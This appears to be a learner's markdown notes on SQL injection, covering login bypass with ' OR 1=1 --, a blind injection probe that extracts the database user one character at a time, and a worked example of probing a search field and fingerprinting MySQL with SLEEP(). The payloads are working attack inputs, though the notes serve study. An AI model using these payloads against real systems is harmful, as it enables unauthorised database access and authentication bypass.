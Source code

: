 

if foo.asp?id="4+1" works then you know you the DB is running query for you




some examples use --+ to do the same thing as --<WHITESPACE> when sending the sql injeciton in the URL - why does this work?
    example used %20 initially but that was stripped by browser

## Attacks

```
' OR 1=1 --
# this nullifies the WHERE clause in the query
# this can be used if the query is
"SELECT * from users WHERE username='#{username}' AND password='#{password}'"
"SELECT * from users WHERE username='joe' AND password='bloggs'" # legit usage
"SELECT * from users WHERE username='joe' AND password='' OR 1=1 --'" # any password works


# ###############################
# in this attach we are going to use a blind sqli to get the username of the current user in the DB
# it is blind sqli so we will never actually get the username back as a result
# we first have to determine that
# 1. this point is vulnerable to sqli
# 2. some way of figuring out whether the query we sent worked or not (i.e. a true/false test). We will use this true/false test to ask the DB questions and infer the answers

' OR ascii(substr(SELECT user(), 1, 1)) > 0 #
# 1. select the username
# 2. get the first char from it
# 3. convert that char to an int
# 4. comment out the rest of the query after that
# 5. compare the it with a chosen number - this step is repeated many times
#    with differnt numbers an operators and the true/false results from the DB are
#    noted. This takes ages so is often automated in a tool
```

## A worked example

Looking at the form input on the page, try to guess the shape of the SQL statement it might generate .e.g if it is a search box then

```sql
SELECT ? FROM ? WHERE ? LIKE '%yourquery%';
```

seems reasonable. Now try things in `yourquery` which will give you info you should not have e.g.

```slq
-- '
SELECT ? FROM ? WHERE ? LIKE '%'%';
-- A single quote character will tell you whether the query you send is being
-- escaped. If you get an error back indicating that the query did anything except
-- perform your query properly qouted e.g. threw an error then you know you are on
-- to something.

';--
SELECT ? FROM ? WHERE ? LIKE '%';--%';
-- If you think you have found an input which has not properly escaped the data
-- then this query should return all rows in the table

Next step is to figure out which DBMS is running this thing
thing' AND 1 = SLEEP(2);--
SELECT ? FROM ? WHERE ? LIKE '%thing' AND 1 = SLEEP(2);--%';
SLEEP() is a MySQL function
```